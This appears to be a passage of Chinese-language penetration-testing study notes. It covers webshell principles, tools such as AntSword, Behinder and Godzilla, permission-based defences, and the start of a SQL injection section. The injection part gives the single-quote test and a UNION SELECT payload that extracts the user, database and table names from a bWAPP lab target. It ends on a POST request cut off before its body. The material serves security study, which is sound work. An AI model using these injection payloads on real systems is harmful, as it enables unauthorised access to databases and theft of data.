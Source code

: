 ## 3、原理

Webshell的恶意性表现在它的实现功能上，是一段带有恶意目的的正常脚本代码

## 4、WebShell管理工具

Ani Shell

三大工具：
- [蚁剑](https://github.com/AntSwordProject/antSword)
- [冰蝎](https://github.com/rebeyond/Behinder)
- [哥斯拉](https://github.com/BeichenDream/Godzilla)

## 5、如何防范

从根本上解决动态网页脚本的安全问题，要做到防注入、防爆库、防COOKIES欺骗、防跨站攻击（xss）等等，务必配置好服务器FSO权限。最小的权限等于最大的安全
  
最有效的办法：**写目录不给执行权限，有执行权限的目录不给写权限**

# 参考资料

- [渗透测试实验室](https://pentesterlab.com/)
- [专业的安全测试](https://portswigger.net/)
- [安全测试靶场](https://mituan.zone/)
- [一款API水平越权漏洞检测工具](https://github.com/y1nglamore/IDOR_detect_tool)

# 三、注入攻击

- [安全漏洞-注入攻击](安全漏洞.md#四注入攻击)

## 1、SQL注入

### 1.1、判断SQL注入点

关键点：
- 判断该访问目标URL是否存在SQL注入；
- 如果存在SQL注入，那么属于哪种SQL注入；

**（1）经典单引号判断法：**

http://xxx.php?id=1'，如果页面返回错误，则存在SQL注入

### union注入

Get请求：

`http://192.168.3.38/bWAPP/sqli_1.php?title=t' union select 1,user(),database(), table_name,version(),6,7 from information_schema.tables where table_schema=database()  -- &action=search`

Post请求：
```
POST /bWAPP/sqli_13.php HTTP/1.1
Host: 192.168.3.38
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 156
Origin: http://192.168.3.38
Connection: close
Referer: http://192.168.3.38/bWAPP/sqli_13.php
Cookie: security_level=0; PHPSESSID=42c01d001c04b420307fd8167fb8c801
Upgrade-Insecure-Requests: 1
```